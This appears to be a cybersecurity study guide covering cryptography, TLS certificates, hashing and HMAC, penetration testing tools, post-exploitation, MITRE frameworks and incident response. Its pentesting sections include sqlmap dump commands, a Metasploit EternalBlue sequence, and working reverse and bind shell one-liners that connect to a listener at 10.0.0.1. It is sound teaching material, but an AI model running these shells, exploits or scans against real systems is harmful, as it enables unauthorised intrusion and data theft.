### Attacks on Digital Signatures
* **Key-Only Attack**: Attacker knows only the user's public key
* **Known Message Attack**: Attacker has access to messages and their corresponding valid signatures
* **Generic Chosen Message Attack**: Attacker selects messages independently of public key, goal is obtaining many signed messages
* **Directed Chosen Message Attack**: More targeted approach after knowing public key, messages carefully chosen by attacker
* **Adaptive Chosen Message Attack**: Attacker requests signatures for messages based on previously obtained message-signature pairs

## Digital Certificates
* Issued by **Certificate Authorities (CAs)**.
* Bind a **public key** to an entity (person, org, domain).
* Provide **trust, authenticity, and confidentiality** in secure communications.
* Used in TLS/HTTPS, VPNs, PKI.
  
**How Certificates Work in TLS**
1. Client requests secure connection (e.g., browser → netflix.com).
2. Server sends certificate containing its **public key** + info.
3. Browser checks certificate against trusted CA list.
4. If valid, client and server agree on a **session key** (symmetric crypto like AES).
5. Secure channel established for fast encrypted communication.

### X.509 Certificate Standard
International standard for public key certificates used in TLS/HTTPS and PKI systems.

**X.509 Certificate Structure**:
- **Version**: X.509 version (v1, v2, v3)
- **Serial Number**: Unique identifier within CA
- **Signature Algorithm**: Algorithm used to sign certificate (RSA with SHA-256)
- **Issuer**: Distinguished Name (DN) of Certificate Authority
- **Validity**: Not Before and Not After timestamps
- **Subject**: Distinguished Name of certificate holder
- **Subject Public Key Info**: Public key and algorithm
- **Additional Extensions (v3):** SAN (extra domains), Key Usage, Extended Key Usage, Basic Constraints,  Authority Key Identifier 

**Certificate Chain of Trust**:
- **Root CA**: Self-signed, pre-installed in browsers/OS
- **Intermediate CA**: Signed by Root CA, issues end-entity certificates
- **End-Entity Certificate**: Issued to specific domain/organization
> Browser validates the whole chain → if broken, trust fails.

```bash
# View certificate details (X.509 structure)
openssl x509 -in certificate.crt -text -noout

# Extract certificate from website
openssl s_client -connect netflix.com:443 -showcerts

# View specific X.509 fields
openssl x509 -in certificate.crt -noout -subject -issuer -dates

# Check X.509 extensions
openssl x509 -in certificate.crt -noout -ext subjectAltName,keyUsage

# Verify certificate chain
openssl verify -CAfile root-ca.crt -untrusted intermediate.crt end-entity.crt

# Generate Certificate Signing Request (CSR) with X.509 extensions
openssl req -new -key private.key -out certificate.csr -config openssl.cnf

# Convert between X.509 formats
openssl x509 -in certificate.crt -outform DER -out certificate.der  # PEM to DER
openssl x509 -in certificate.der -inform DER -outform PEM -out certificate.pem  # DER to PEM
```

**Certificate Validation Process**:
1. **Domain Validation**: Certificate matches requested domain
2. **Chain Validation**: Certificate signed by trusted CA
3. **Expiration Check**: Certificate within validity period
4. **Revocation Check**: Certificate not in CRL/OCSP blacklist

**Common Certificate Types**:
- **DV (Domain Validated)**: Basic domain ownership verification
- **OV (Organization Validated)**: Domain + organization verification
- **EV (Extended Validation)**: Strict legal entity verification (shows company name in browser)

### TLS Protocol Stack
TLS (Transport Layer Security) secures communications over networks, primarily used in HTTPS.

**TLS Protocols**:
| Protocol               | Header / Length Info         | Purpose                    | Details                                                                                                                       |
| ---------------------- | ---------------------------- | -------------------------- | ----------------------------------------------------------------------------------------------------------------------------- |
| **TLS Record**         | **5 bytes header** + payload | Base protocol layer        | Header = Content Type (1), Version (2), Length (2). Provides encryption, authentication, integrity for all higher-layer data. |
| **Handshake**          | Variable (≥4 bytes + data)   | Connection establishment   | Header = Type (1), Length (3). Content includes ClientHello, ServerHello, cert exchange, key exchange, etc.                   |
| **Change Cipher Spec** | **1 byte**                   | Parameter activation       | Single fixed value `0x01` → signals switch to negotiated cipher suite.                                                        |
| **Alert**              | **2 bytes**                  | Error/warning notification | Level (1 byte: 1 = warning, 2 = fatal) + Description (1 byte, e.g., close\_notify, bad\_record\_mac).                         |
| **Application Data**   | Variable (inside Record)     | Encrypted payload          | Actual app data (HTTP, SMTP, etc.) encrypted with negotiated session keys.                                                    |
| **Heartbeat**          | **3 bytes header** + data    | Keep-alive mechanism       | Header = Type (1), Payload Length (2). Sends small packets to check link status (basis of Heartbleed vuln).                   |

**TLS Cipher Suite**   
Defines algorithm combination for a session  


Example:
```bash
TLS_ECDHE_RSA_WITH_AES_128_GCM_SHA256
```
- **Key Exchange**: ECDHE (Ephemeral Elliptic Curve Diffie-Hellman)
- **Authentication**: RSA
- **Encryption**: AES-128 in GCM mode
- **MAC**: SHA-256

### Mutual TLS (mTLS)
- Both client and server authenticate with certificates (two-way authentication).
- In normal TLS → only the server presents a certificate, so the client knows it’s talking to the right server.
- In mTLS → both server and client present certificates, so each side verifies the other’s identity before establishing an encrypted connection.

## Encoding & Data Representation
Encoding transforms data from one format to another for storage, transmission, or compatibility purposes (reversible without a key).

```bash
# Base64 encoding/decoding
echo "Hello World" | base64                    # SGVsbG8gV29ybGQK
echo "SGVsbG8gV29ybGQK" | base64 -d            # Hello World

# URL encoding
curl -G -d "param=hello world" http://example.com    # param=hello%20world

# Hex encoding
echo "Hello" | xxd                             # 48656c6c6f0a
echo "48656c6c6f" | xxd -r -p                  # Hello

# HTML encoding
&lt; &gt; &amp; &quot; &#39;                    # < > & " '
```

```python
import base64
import urllib.parse
import html

# Base64
data = "Hello World"
encoded = base64.b64encode(data.encode()).decode()    # SGVsbG8gV29ybGQ=
decoded = base64.b64decode(encoded).decode()          # Hello World

# URL encoding
url_encoded = urllib.parse.quote("hello world")      # hello%20world
url_decoded = urllib.parse.unquote(url_encoded)      # hello world

# HTML encoding
html_encoded = html.escape("<script>alert('xss')</script>")
html_decoded = html.unescape(html_encoded)
```

<details>
<summary><strong>Base64 Explained</strong></summary>
The basic idea behind Base64 encoding is to represent binary data using only ASCII characters. To do this, Base64 converts each 3 bytes of binary data into 4 bytes of ASCII text. The 3 bytes of binary data are divided into 4 groups of 6 bits each, which are then represented by a character from a set of 64 characters. The 64 characters used in Base64 are:

`ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/`

The equals sign (=) is also used as a padding character to ensure that the length of the output is a multiple of 4 characters.

For example, let's say we want to encode the binary data "`011000010110001001100011`", which represents the ASCII characters "`abc`". To encode this data in Base64, we first divide it into 3-byte groups:

`01100001 01100010 01100011`

Then we divide each 3-byte group into 4 groups of 6 bits each:

`011000 010110 001001 100011`

Next, we convert each group of 6 bits to its corresponding Base64 character:

`Y W J j`

So the encoded Base64 string for "`abc`" is "`YWJj`".
</details>

## Hashing
Hashing transforms data into a fixed-size string of characters, which is typically a digest that represents the original data.

```python
import hashlib

# SHA-256
message = "Hello World"
hash_object = hashlib.sha256(message.encode())
hash_hex = hash_object.hexdigest()

# Password hashing with salt
import bcrypt
password = "user_password"
salt = bcrypt.gensalt()
hashed = bcrypt.hashpw(password.encode(), salt)

# Verify password
bcrypt.checkpw(password.encode(), hashed)
```

### Hash Function Security Properties

Cryptographic hash functions must satisfy three fundamental resistance properties.

#### 1. Pre-image Resistance (One-way Property)
**Definition**: Given a hash value `h`, it should be computationally infeasible to find any input `x` such that `hash(x) = h`.    
**Purpose**: Prevents attackers from working backwards from hash to original data   
**Example**: Given SHA-256 hash `a665a45920422f9d417e4867efdc4fb8a04a1f3fff1fa07e998e86f7f7a27ae3`, finding the original input should be impossible  

#### 2. Second Pre-image Resistance (Weak Collision Resistance)
**Definition**: Given an input `x`, it should be computationally infeasible to find a different input `x`' such that `hash(x) = hash(x')`.  
**Purpose**: Prevents attackers from finding alternative inputs that produce the same hash  
**Example**: Given message "Hello World", finding another message with the same SHA-256 hash should be impossible  

#### 3. Collision Resistance (Strong Collision Resistance)
**Definition**: It should be computationally infeasible to find any two distinct inputs `x` and `x`' such that `hash(x) = hash(x')`.  
**Purpose**: Ensures no two different inputs produce the same hash value  
**Example**: Finding any two different messages that produce the same SHA-256 hash should be impossible

**Real-world Impact**:
- **Pre-image**: Password recovery from hash
- **Second Pre-image**: Document forgery with same hash
- **Collision**: Digital signature forgery, certificate attacks

---

### MAC (Message Authentication Code) and HMAC

#### MAC (Message Authentication Code)
**Purpose**: Provides both data integrity and authentication by combining a message with a secret key.

**How MAC Works**:
1. **Input**: Message + Secret Key
2. **Process**: Apply cryptographic function (hash or cipher)
3. **Output**: Fixed-size authentication tag
4. **Verification**: Receiver computes MAC with same key and compares

**Simple MAC Construction**:
```python
import hashlib

def simple_mac(key, message):
    # Vulnerable construction - DO NOT USE
    return hashlib.sha256(key + message.encode()).hexdigest()

# Example (INSECURE)
key = b"secret_key"
message = "Important message"
mac = simple_mac(key, message)
```

**MAC Weaknesses**:
- **Length Extension Attacks**: Attacker can append data and compute valid MAC
- **Key Recovery**: Possible with certain hash functions
- **Collision Attacks**: If underlying hash function is vulnerable
- **Timing Attacks**: Information leakage through computation time

---
#### HMAC (Hash-based Message Authentication Code)
**Purpose**: Secure MAC construction that addresses vulnerabilities of simple MAC schemes.

**HMAC Construction** (RFC 2104):
```
HMAC(K, m) = H((K ⊕ opad) || H((K ⊕ ipad) || m))
```

Where:
- **K**: Secret key (padded to block size)
- **m**: Message
- **H**: Cryptographic hash function (SHA-256, SHA-512)
- **ipad**: Inner padding (0x36 repeated)
- **opad**: Outer padding (0x5C repeated)
- **⊕**: XOR operation
- **||**: Concatenation

**HMAC Implementation**:
```python
import hmac
import hashlib

# Secure HMAC construction
def generate_hmac(key, message):
    return hmac.new(
        key.encode(),
        message.encode(),
        hashlib.sha256
    ).hexdigest()

# Example usage
key = "secret_key"
message = "Important message"
hmac_value = generate_hmac(key, message)

# Verification
def verify_hmac(key, message, received_hmac):
    computed_hmac = generate_hmac(key, message)
    return hmac.compare_digest(computed_hmac, received_hmac)

# Secure comparison to prevent timing attacks
is_valid = verify_hmac(key, message, hmac_value)
```

**Length Extension Protection**: Uses a hash function twice with the secret key mixed in both the inner and outer hash.

## Cryptographic Algorithms Comprehensive Comparison

### Symmetric Encryption Algorithms
| Algorithm    | Type          | Key Size (bits) | Block Size (bits) | Security Level | Speed     | Use Cases                     | Status             |
| ------------ | ------------- | --------------- | ----------------- | -------------- | --------- | ----------------------------- | ------------------ |
| **AES**      | Block Cipher  | 128, 192, 256   | 128               | High           | Fast      | General encryption, TLS, VPNs | Current Standard   |
| **ChaCha20** | Stream Cipher | 256             | N/A (stream)      | High           | Very Fast | Mobile, IoT, TLS              | Modern Alternative |
| **DES**      | Block Cipher  | 56              | 64                | Broken         | Fast      | Legacy systems                | Deprecated         |
| **3DES**     | Block Cipher  | 112, 168        | 64                | Weak           | Slow      | Legacy systems                | Being phased out   |
| **Blowfish** | Block Cipher  | 32-448          | 64                | Moderate       | Fast      | Password hashing              | Legacy             |
| **Twofish**  | Block Cipher  | 128, 192, 256   | 128               | High           | Fast      | General encryption            | Alternative to AES |

### Asymmetric Encryption Algorithms
| Algorithm   | Type           | Key Size (bits) | Mathematical Basis          | Security Level | Speed     | Primary Use                 | Status                    |
| ----------- | -------------- | --------------- | --------------------------- | -------------- | --------- | --------------------------- | ------------------------- |
| **RSA**     | Public Key     | 1024-4096       | Integer factorization       | High (2048+)   | Slow      | Encryption, signatures      | Current Standard          |
| **ECC**     | Public Key     | 160-521         | Elliptic curve discrete log | High           | Fast      | Mobile, IoT, modern systems | Preferred for new systems |
| **ElGamal** | Public Key     | 1024-3072       | Discrete logarithm          | High           | Slow      | Encryption (probabilistic)  | Specialized use           |
| **DSA**     | Signature Only | 1024-3072       | Discrete logarithm          | High           | Medium    | Digital signatures          | Legacy                    |
| **ECDSA**   | Signature Only | 160-521         | Elliptic curve discrete log | High           | Fast      | Digital signatures          | Current Standard          |
| **EdDSA**   | Signature Only | 255, 448        | Elliptic curves (Edwards)   | High           | Very Fast | Modern signatures           | Cutting-edge              |

### Key Exchange Algorithms
| Algorithm            | Type          | Key Size (bits) | Perfect Forward Secrecy | Quantum Resistance | Use Cases                   | Status           |
| -------------------- | ------------- | --------------- | ----------------------- | ------------------ | --------------------------- | ---------------- |
| **ECDH**             | Key Agreement | 160-521         | Yes (ephemeral)         | No                 | TLS, VPNs, secure messaging | Current Standard |
| **DH**               | Key Agreement | 1024-3072       | Yes (ephemeral)         | No                 | Legacy systems, IPSec       | Legacy           |
| **RSA Key Exchange** | Key Transport | 1024-4096       | No                      | No                 | Legacy TLS                  | Deprecated       |
| **X25519**           | Key Agreement | 255             | Yes                     | No                 | Modern protocols            | Preferred        |
| **CRYSTALS-KYBER**   | Post-Quantum  | Variable        | Yes                     | Yes                | Future protocols            | NIST Standard    |

### Hash Functions
| Algorithm   | Output Size (bits) | Collision Resistance | Speed     | Security Level | Use Cases                      | Status             |
| ----------- | ------------------ | -------------------- | --------- | -------------- | ------------------------------ | ------------------ |
| **SHA-256** | 256                | High                 | Fast      | High           | Digital signatures, blockchain | Current Standard   |
| **SHA-3**   | 224-512            | High                 | Medium    | High           | Alternative to SHA-2           | NIST Standard      |
| **SHA-1**   | 160                | Broken               | Fast      | Broken         | Legacy systems                 | Deprecated         |
| **MD5**     | 128                | Broken               | Very Fast | Broken         | Checksums only                 | Deprecated         |
| **BLAKE2**  | 256, 512           | High                 | Very Fast | High           | Performance-critical apps      | Modern Alternative |
| **BLAKE3**  | 256                | High                 | Fastest   | High           | Next-gen applications          | Cutting-edge       |

### Password Hashing Algorithms
| Algorithm            | Type        | Configurable Cost | Memory Hard | Salt   | Time to Crack | Use Cases                   | Status                |
| -------------------- | ----------- | ----------------- | ----------- | ------ | ------------- | --------------------------- | --------------------- |
| **Argon2**           | Memory-hard | Yes               | Yes         | Yes    | Very High     | Modern applications         | Current Best Practice |
| **scrypt**           | Memory-hard | Yes               | Yes         | Yes    | High          | Cryptocurrency, general use | Good                  |
| **bcrypt**           | CPU-hard    | Yes               | No          | Yes    | High          | Web applications            | Good                  |
| **PBKDF2**           | CPU-hard    | Yes               | No          | Yes    | Medium        | Legacy systems              | Acceptable            |
| **SHA-256 (salted)** | Fast hash   | No                | No          | Manual | Low           | Not recommended             | Avoid                 |

### Algorithm Selection Guidelines

#### For New Systems:
- **Symmetric Encryption**: AES-256-GCM or ChaCha20-Poly1305
- **Asymmetric Encryption**: ECC (P-256, P-384) or Ed25519
- **Key Exchange**: ECDH with P-256 or X25519
- **Digital Signatures**: ECDSA with P-256 or Ed25519
- **Hashing**: SHA-256 or SHA-3
- **Password Hashing**: Argon2id

#### Security Levels (Equivalent Strength):
| Symmetric | RSA        | ECC      | Hash     |
| --------- | ---------- | -------- | -------- |
| 80 bits   | 1024 bits  | 160 bits | 160 bits |
| 112 bits  | 2048 bits  | 224 bits | 224 bits |
| 128 bits  | 3072 bits  | 256 bits | 256 bits |
| 192 bits  | 7680 bits  | 384 bits | 384 bits |
| 256 bits  | 15360 bits | 521 bits | 512 bits |

#### Performance Characteristics:
- **Fastest**: ChaCha20, BLAKE3, Ed25519
- **Most Secure**: AES-256, RSA-4096, P-521
- **Best Balance**: AES-256, ECDSA P-256, SHA-256
- **Future-Proof**: Post-quantum algorithms (CRYSTALS-KYBER, CRYSTALS-DILITHIUM)

#### Post-Quantum Considerations:
- **Vulnerable to Quantum**: RSA, ECC, DH
- **Quantum-Resistant**: AES (with larger keys), SHA-3, Lattice-based algorithms
- **Recommended Migration**: Start planning transition to post-quantum cryptography

# Penetration Testing
Penetration testing involves simulating cyberattacks to identify vulnerabilities in systems, networks, or applications. 

## Reconnaissance
**External Reconnaissance:** Gathers publicly available information about the target (Google, nmap, gobuster).  
**Internal Reconnaissance:** Involves probing the target system directly (Enumerating AD, identifyng PrivEsc paths).

```bash
# Subdomain enumeration
$ subfinder -d target.com
$ amass enum -d target.com

# Port scanning
$ nmap -sS -sV -O target.com       # Stealth scan with version detection and OS fingerprinting
$ nmap -sV -sC -p- target.com      # Scan all ports with default scripts and version detection

# Directory bruteforcing
$ dirb http://target.com /usr/share/wordlists/dirb/common.txt
$ gobuster dir -u http://target.com -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

# Wfuzz - Web application fuzzer
$ wfuzz -c -z file,/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --hc 404 http://target.com/FUZZ
$ wfuzz -c -z file,/usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt --hc 404,403 http://target.com/FUZZ.php
$ wfuzz -c -z file,/usr/share/wordlists/SecLists/Discovery/Web-Content/big.txt --sc 200 http://target.com/FUZZ

# Ffuf - Fast web fuzzer written in Go
$ ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://target.com/FUZZ
$ ffuf -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt -u http://target.com/FUZZ -fc 404,403
$ ffuf -w /usr/share/wordlists/SecLists/Discovery/Web-Content/raft-medium-directories.txt -u http://target.com/FUZZ/ -mc 200,301,302

# DNS enumeration
$ dig @8.8.8.8 target.com any     # Query all DNS records
$ nslookup -type=mx target.com    # Query MX records
$ fierce -dns target.com          # DNS reconnaissance
```

## Vulnerability Scanning

### Nessus
**Purpose**: Commercial vulnerability scanner for comprehensive network and application security assessment.
- **Capabilities**: 50,000+ vulnerability checks, compliance auditing, malware detection
- **Use Cases**: Enterprise vulnerability management, regulatory compliance, risk assessment

### OpenVAS
**Purpose**: Open-source vulnerability scanner and security management platform.
- **Capabilities**: Network vulnerability testing, authenticated scanning, compliance checks
- **Use Cases**: Free alternative to commercial scanners, security research, SMB security testing

### Nikto
**Purpose**: Web server vulnerability scanner focused on web application security flaws.
- **Capabilities**: 6,700+ potentially dangerous files/programs, server configuration issues, outdated software detection
- **Use Cases**: Web application pentesting, quick web server assessment, CI/CD security checks

```bash
# Nessus scan
nessuscli -q localhost 8834 user pass scan new policy_id target_ip scan_name

# OpenVAS scan
openvas-cli -X '<create_task><name>Scan</name><target>target_ip</target></create_task>'

# Nikto web scanner
nikto -h http://target.com -Format txt -output nikto_results.txt

# SQLmap
sqlmap.py -u "http://target.com/login" --dbs  # List databases
sqlmap.py -u "http://target.com/login" -D <database_name> --tables # List tables
sqlmap.py -u "http://target.com/login" -D <database_name> -T <table_name> --columns # List columns
sqlmap.py -u "http://target.com/login" -D <database_name> -T <table_name> -C <column_name> --dump # Dump data
```

## CVE and CVSS

### CVE (Common Vulnerabilities and Exposures)
Standardized identifier system for publicly known security vulnerabilities.

**CVE Format**: CVE-YYYY-NNNN (e.g., CVE-2021-44228 for Log4Shell)
- **YYYY**: Year of assignment
- **NNNN**: Sequential number (4+ digits)

**CVE Process**:
1. **Discovery**: Vulnerability identified by researcher or vendor
2. **Assignment**: CVE Numbering Authority (CNA) assigns CVE ID
3. **Publication**: Details published in CVE database
4. **Scoring**: CVSS score assigned for severity assessment

### CVSS (Common Vulnerability Scoring System)
Standardized method for rating vulnerability severity (0.0-10.0 scale) to help prioritize patching and risk management.

**Base Metrics → intrinsic characteristics (don’t change):**
- **Attack Vector (AV)**: Network (N), Adjacent (A), Local (L), Physical (P)
- **Attack Complexity (AC)**: Low (L), High (H)
- **Privileges Required (PR)**: None (N), Low (L), High (H)
- **User Interaction (UI)**: None (N), Required (R)
- **Scope (S)**: Unchanged (U), Changed (C)
- **Confidentiality/Integrity/Availability (C/I/A):** None (N), Low (L), High (H)

**Temporal Metrics (Time-dependent factors)**:
- **Exploit Code Maturity**: Not Defined, Proof-of-Concept, Functional, High
- **Remediation Level**: Official Fix, Temporary Fix, Workaround, Unavailable
- **Report Confidence**: Unknown, Reasonable, Confirmed

**Environmental Metrics (Local environment-specific)**:
- **Environmental Metrics:** Specific to an organization’s context (asset value, mitigations).

#### CVSS Score Ranges
| Score Range | Severity Level | Risk Level      |
| ----------- | -------------- | --------------- |
| 0.0         | None           | Informational   |
| 0.1-3.9     | Low            | Low Priority    |
| 4.0-6.9     | Medium         | Medium Priority |
| 7.0-8.9     | High           | High Priority   |
| 9.0-10.0    | Critical       | Emergency       |

#### Example CVSS Calculation
**CVE-2021-44228 (Log4Shell)**:
- **AV:N** (Network) - Remote exploitation
- **AC:L** (Low) - Simple to exploit
- **PR:N** (None) - No authentication required
- **UI:N** (None) - No user interaction needed
- **S:C** (Changed) - Affects other components
- **C:H/I:H/A:H** (High impact on all)

**Result**: AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H → Score: 10.0 (Critical)

## Exploitation Frameworks

### Metasploit
```bash
$ msfconsole                                      # Start Metasploit console
$ use exploit/windows/smb/ms17_010_eternalblue    # Select exploit
$ set RHOSTS target_ip                            # Set target IP
$ set LHOST attacker_ip                           # Set local IP  
$ exploit                                         # Launch exploit
```

### Burp Suite
Burp Suite is a popular web vulnerability scanner and proxy tool used for penetration testing of web applications.

Components:
- **Proxy**: Intercept and modify web traffic.
- **Target**: Define scope and map the application.
  
Features:
- **Intruder**: Automate fuzzing and brute-force attacks.
- **Repeater**: Edit and resend requests for testing.
- **Sequencer**: Analyze randomness (e.g., session tokens).
- **Decoder**: Encode/decode and transform data.
- **Comparer**: Compare responses or data sets.
- **Extender**: Add plugins and integrations.
- **Scanner**: Automated vulnerability scanning (Pro only).

<Details>
<summary>Burp Suite Commands & Usage</summary>

#### Intercept HTTP requests
To intercept and modify HTTP requests using Burp Suite, follow these steps:
1. Open Burp Suite and go to the "Proxy" tab.
2. Ensure "Intercept is on" (button should be highlighted).
3. Configure your browser to use Burp Suite as a proxy (default is localhost:8080).
4. Navigate to the target web application in your browser.
5. Burp Suite will capture the HTTP requests, allowing you to view and modify them before forwarding to the server.
6. After making modifications, click "Forward" in Burp Suite to send the request to the server.

#### Fuzzing with Intruder
1. Go to the "Intruder" tab and select "Positions".
2. Load a request (right-click in Proxy > Send to Intruder).
3. Clear existing payload positions and highlight the parts of the request you want to fuzz.
4. Click "Add §" to mark the positions.
5. Go to the "Payloads" tab, select the payload type (e.g., simple list, numbers, etc.), and load your payloads.
6. Click "Start attack" to begin fuzzing. Review the results for anomalies or vulnerabilities.

#### Repeating Requests with Repeater
1. Right-click on a request in the Proxy tab and select "Send to Repeater".
2. Go to the "Repeater" tab, where you can see the request.
3. Modify the request as needed (e.g., change parameters, headers).
4. Click "Send" to resend the modified request and view the response.

#### Analyzing Session Tokens with Sequencer
1. Right-click on a request containing a session token and select "Send to Sequencer".
2. Go to the "Sequencer" tab and start the analysis.
3. Review the results to assess the randomness and predictability of the token.

#### Decoding Data with Decoder
1. Go to the "Decoder" tab.
2. Paste the encoded data (e.g., Base64, URL-encoded).
3. Select the appropriate decoding method from the dropdown.
4. Click "Decode" to view the decoded data.

#### Comparing Responses with Comparer
1. Go to the "Comparer" tab.
2. Paste the first response in the left pane and the second response in the right pane.
3. Click "Compare" to see the differences highlighted.
</Details>

### OWASP ZAP
OWASP ZAP (Zed Attack Proxy) is a free, open-source web application security scanner.

**Core Features:**
- **Automated Scanner**: Passive and active scanning
- **Manual Tools**: Intercepting proxy, fuzzer, spider
- **API**: REST API for automation and CI/CD integration

```bash
# Basic scanning
$ zap-cli quick-scan http://target.com
$ zap-cli spider http://target.com
$ zap-cli active-scan http://target.com

# Advanced usage
$ zap.sh -cmd -quickurl http://target.com          # Quick scan via CLI
$ zap.sh -cmd -port 8080 -host 0.0.0.0             # Start daemon mode
$ zap.sh -cmd -quickprogress http://target.com     # Show scan progress

# API usage
curl "http://localhost:8080/JSON/spider/action/scan/?url=http://target.com"
curl "http://localhost:8080/JSON/ascan/action/scan/?url=http://target.com"
```

**ZAP Scripts:**
- **Authentication**: Custom login sequences
- **Session Management**: Handle complex session logic
- **Input Vectors**: Define custom attack points

## Post-Exploitation Techniques

### Lateral Movement
Movement from initial compromise to other systems within the network.

**Common Techniques**:
- **Pass-the-Hash**: Using NTLM hashes without cracking passwords
- **Golden Ticket**: Forged Kerberos tickets for domain access
- **WMI/PowerShell**: Remote execution via legitimate tools
- **RDP/SSH**: Using compromised credentials for remote access
- **SMB/NetBIOS**: File share exploitation for network traversal

**Detection**:
- Monitor unusual network connections between internal hosts
- Track administrative tool usage (PsExec, WMI, PowerShell)
- Analyze authentication logs for suspicious patterns

### Shells

#### Reverse/Bind Shells
**Reverse Shell**: Target connects back to attacker's listening machine.
```bash
# Attacker (listener)
nc -lvp 4444                          # Listen on port 4444

# Target (reverse shell)
bash -i >& /dev/tcp/10.0.0.1/4444 0>&1    # Bash reverse shell
nc -e /bin/bash 10.0.0.1 4444             # Netcat reverse shell
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' # Python reverse shell
```

**Bind Shell**: Target opens port and waits for attacker connection.
```bash
# Target (bind shell)
nc -lvp 4444 -e /bin/bash             # Netcat bind shell
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.bind(("0.0.0.0",4444));s.listen(1);conn,addr=s.accept();os.dup2(conn.fileno(),0);os.dup2(conn.fileno(),1);os.dup2(conn.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' # Python bind shell

# Attacker (connect)
nc 10.0.0.2 4444                      # Connect to target
```

#### TTY Shell Upgrade
**Problem**: Basic shells lack features (no tab completion, ctrl+c kills shell)  
**Solution**: Upgrade to full interactive TTY shell
```bash
# Method 1: Python PTY
python -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
# Ctrl+Z (background)
stty raw -echo; fg
# Enter twice

# Method 2: Script command
script -qc /bin/bash /dev/null

# Method 3: Socat (if available)
socat file:`tty`,raw,echo=0 tcp-listen:4444
# On target:
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.0.1:4444
```

### Privilege Escalation
Gaining higher-level permissions than initially obtained.

**Linux Privilege Escalation**:
```bash
# Check sudo permissions
sudo -l                           # List allowed sudo commands
sudo -l -U username               # Check specific user's sudo rights

# Common escalation vectors
find / -perm -4000 2>/dev/null   # Find SUID binaries
cat /etc/crontab                 # Check scheduled tasks
ps aux | grep root               # Running processes as root
```

**Windows Privilege Escalation**:
- **UAC Bypass**: Exploiting User Account Control weaknesses
- **Service Exploitation**: Weak service permissions
- **Token Impersonation**: Stealing access tokens
- **Registry Manipulation**: Exploiting registry permissions

**Mitigation**:
- Principle of least privilege
- Regular patching and updates
- Monitor for privilege escalation attempts
- Use application whitelisting and endpoint protection

## Attack Lifecycle

### MITRE ATT&CK Framework
**Purpose**: Knowledge base of adversary tactics, techniques, and procedures (TTPs) based on real-world observations.

**Structure**:
- **Tactics**: High-level goals (e.g., Initial Access, Persistence) → the "why"
- **Techniques**: Methods to achieve tactics (e.g., Spearphishing) → the "how"
- **Sub-techniques**: Specific implementations (e.g., Spearphishing Link) → the "details"

**ATT&CK Matrix Tactics**:
1. **Initial Access**: Entry into network
2. **Execution**: Running malicious code
3. **Persistence**: Maintaining presence
4. **Privilege Escalation**: Higher-level permissions
5. **Defense Evasion**: Avoiding detection
6. **Credential Access**: Stealing credentials
7. **Discovery**: System and network reconnaissance
8. **Lateral Movement**: Moving through environment
9. **Collection**: Gathering target data
10. **Command and Control**: Communication with compromised systems
11. **Exfiltration**: Stealing data
12. **Impact**: Disrupt, corrupt, or destroy systems

### MITRE Caldera Framework
**Purpose**: Automated, modular platform for adversary emulation based on ATT&CK techniques.

**Core Components**:
- **Agents**: Deployed on target machines, receive instructions from C2 server
- **Abilities**: Executable tasks mapped to MITRE ATT&CK techniques (e.g., create user, dump credentials)
- **Adversary Profiles**: Sets of abilities grouped into coherent attack campaigns
- **Operations**: Chains of abilities run in sequence, controlled by planners
- **Planners**: Decision logic for selecting which abilities to run next based on environment and available facts
- **Facts**: Dynamic variables collected during execution (usernames, IPs, passwords) used in later steps
- **Plugins**: Extend Caldera's capabilities with new UI elements, custom agents, and TTPs

**Use Cases**:
- Red team exercises and adversary simulation
- Security control validation and testing
- Training and education on ATT&CK techniques
- Automated penetration testing workflows

### MITRE ATLAS (Adversarial Threat Landscape for AI Systems)
**Purpose**: Framework for understanding adversarial tactics against AI/ML systems.

**Key Areas**:
- **ML Attack Staging**: Data poisoning, model theft
- **ML Model Access**: Inference attacks, membership inference
- **Evasion**: Adversarial examples, prompt injection
- **Impact**: Model degradation, bias amplification

### Cyber Kill Chain
**Lockheed Martin Model**: Reconnaissance → Weaponization → Delivery → Exploitation → Installation → Command & Control → Actions on Objectives

| Phases                | Description                                      | Mitigation Techniques                                                    | Action Type        |
| --------------------- | ------------------------------------------------ | ------------------------------------------------------------------------ | ------------------ |
| Reconnaissance        | Target identification and research               | Network segmentation and honeypots                                       | Prevention         |
| Weaponization         | Creating attack tools/payloads                   | Cannot be directly prevented by organizations                            | Prevention         |
| Delivery              | Transmitting payload to target                   | Email security, web filtering, firewalls                                 | Prevention         |
| Exploitation          | Executing code on target system                  | Keeping software patched and up to date                                  | Prevention         |
| Installation          | Installing persistent access (backdoor, rootkit) | Endpoint Detection and Response (EDR) systems                            | Detect and Respond |
| Command and Control   | Establishing communication channel               | Network monitoring, anomaly detection, intrusion detection systems (IDS) | Detect and Respond |
| Actions on Objectives | Achieving attacker goals                         | Incident response teams and data loss prevention tools                   | Detect and Respond |

  
# DFIR (Digital Forensics and Incident Response)
**Purpose**: Investigate and analyze incidents.
- Identify indicators of compromise (IoCs)
- Capture and preserve forensic evidence
- Use findings to improve organizational defense

## Incident Management
**Purpose**: Processes to detect, report, assess, respond to, resolve, and learn from security incidents.

**Key Elements**:
- **Data Collection**: Gathering relevant data from various sources
- **Data Aggregation**: Combining data from multiple sources for analysis
- **Data Normalization**: Standardizing data for consistency
- **Correlation**: Identifying patterns and connections in data
- **Alerting**: Generating notifications about potential incidents
- **Reporting/Compliance**: Documenting incidents for compliance and learning

## Phases of Incident Response (NIST Framework)
1. **Preparation**: Policies, procedures, tools
2. **Detection & Analysis**: Monitoring, investigation
3. **Containment**: Isolate threat, prevent spread
4. **Eradication**: Remove threat from environment
5. **Recovery**: Restore normal operations
6. **Lessons Learned**: Post-incident review

## Digital Forensics

### Forensic Artifacts

#### File/Folder Access
